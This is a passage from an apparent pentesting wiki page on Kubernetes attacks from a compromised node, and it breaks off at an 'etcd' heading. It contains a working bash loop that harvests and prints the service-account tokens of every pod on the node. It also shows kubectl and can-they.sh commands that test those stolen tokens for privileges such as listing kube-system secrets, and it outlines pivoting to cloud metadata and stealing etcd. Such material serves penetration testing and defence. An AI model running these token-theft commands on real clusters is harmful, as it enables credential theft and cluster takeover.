 ### Steal Secrets

```bash
# Check Kubelet privileges
kubectl --kubeconfig /var/lib/kubelet/kubeconfig auth can-i create pod -n kube-system

# Steal the tokens from the pods running in the node
# The most interesting one is probably the one of kube-system
ALREADY="IinItialVaaluE"
for i in $(mount | sed -n '/secret/ s/^tmpfs on \(.*default.*\) type tmpfs.*$/\1\/namespace/p'); do
    TOKEN=$(cat $(echo $i | sed 's/.namespace$/\/token/'))
    if ! [ $(echo $TOKEN | grep -E $ALREADY) ]; then
        ALREADY="$ALREADY|$TOKEN"
        echo "Directory: $i"
        echo "Namespace: $(cat $i)"
        echo ""
        echo $TOKEN
        echo "================================================================================"
        echo ""
    fi
done
```

The script [**can-they.sh**](https://github.com/BishopFox/badPods/blob/main/scripts/can-they.sh) will automatically **get the tokens of other pods and check if they have the permission** you are looking for (instead of you looking 1 by 1):

```bash
./can-they.sh -i "--list -n default"
./can-they.sh -i "list secrets -n kube-system"// Some code
```

### Privileged DaemonSets

A DaemonSet is a **pod** that will be **run** in **all the nodes of the cluster**. Therefore, if a DaemonSet is configured with a **privileged service account,** in **ALL the nodes** you are going to be able to find the **token** of that **privileged service account** that you could abuse.

The exploit is the same one as in the previous section, but you now don't depend on luck.

### Pivot to Cloud

If the cluster is managed by a cloud service, usually the **Node will have a different access to the metadata** endpoint than the Pod. Therefore, try to **access the metadata endpoint from the node** (or from a pod with hostNetwork to True):

{{#ref}}
kubernetes-pivoting-to-clouds.md
{{#endref}}

### Steal etcd

If you can specify the [**nodeName**](https://kubernetes.io/docs/tasks/configure-pod-container/assign-pods-nodes/#create-a-pod-that-gets-scheduled-to-specific-node) of the Node that will run the container, get a shell inside a control-plane node and get the **etcd database**:
